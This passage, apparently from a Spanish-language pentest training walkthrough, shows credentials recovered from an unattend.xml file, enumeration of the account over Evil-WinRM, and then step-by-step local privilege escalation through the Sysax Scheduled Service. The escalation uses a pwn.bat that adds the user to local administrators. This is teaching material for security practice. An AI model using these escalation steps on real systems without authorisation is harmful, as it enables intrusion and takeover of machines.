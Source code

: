 ```r
        </component>
    </settings>
</unattend>
```

Encontramos credenciales para el usuario local `ilfserveradm`, con la contraseña `Sys26Admin`.

  Share Hunting

```r
*Evil-WinRM* PS C:\panther> net user ilfserveradm

User name                    ilfserveradm
Full Name                    ilfserveradm
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/1/2022 2:17:17 PM
Password expires             Never
Password changeable          6/1/2022 2:17:17 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   6/1/2022 2:17:17 PM

Logon hours allowed          All

Local Group Memberships      *Remote Desktop Users
Global Group memberships     *None
The command completed successfully.
```

Este no es un usuario del dominio, pero es interesante que este usuario tenga acceso a Remote Desktop pero no sea miembro del grupo de administradores locales. Hagamos RDP y veamos qué podemos hacer. Después de hacer RDP y realizar más enumeraciones, encontramos algún software no estándar instalado en el directorio `C:\Program Files (x86)\SysaxAutomation`. Una búsqueda rápida produce [este](https://www.exploit-db.com/exploits/50834) exploit de escalación de privilegios local. Según el escrito, este servicio de Sysax Scheduled Service se ejecuta como la cuenta local SYSTEM y permite a los usuarios crear y ejecutar trabajos de respaldo. Si se elimina la opción de ejecutar como usuario, predeterminará ejecutar la tarea como la cuenta SYSTEM. ¡Vamos a probarlo!

Primero, crea un archivo llamado `pwn.bat` en `C:\Users\ilfserveradm\Documents` que contenga la línea `net localgroup administrators ilfserveradm /add` para agregar nuestro usuario al grupo de administradores locales (algo que necesitaríamos limpiar y anotar en nuestros apéndices del informe). Luego, podemos realizar los siguientes pasos:

- Abre `C:\Program Files (x86)\SysaxAutomation\sysaxschedscp.exe`
- Selecciona `Setup Scheduled/Triggered Tasks`
- Agrega una tarea (Triggered)
- Actualiza la carpeta a monitorear a `C:\Users\ilfserveradm\Documents`
- Marca `Run task if a file is added to the monitor folder or subfolder(s)`
- Elige `Run any other Program` y elige `C:\Users\ilfserveradm\Documents\pwn.bat`
- Desmarca `Login as the following user to run task`
- Haz clic en `Finish` y luego en `Save`
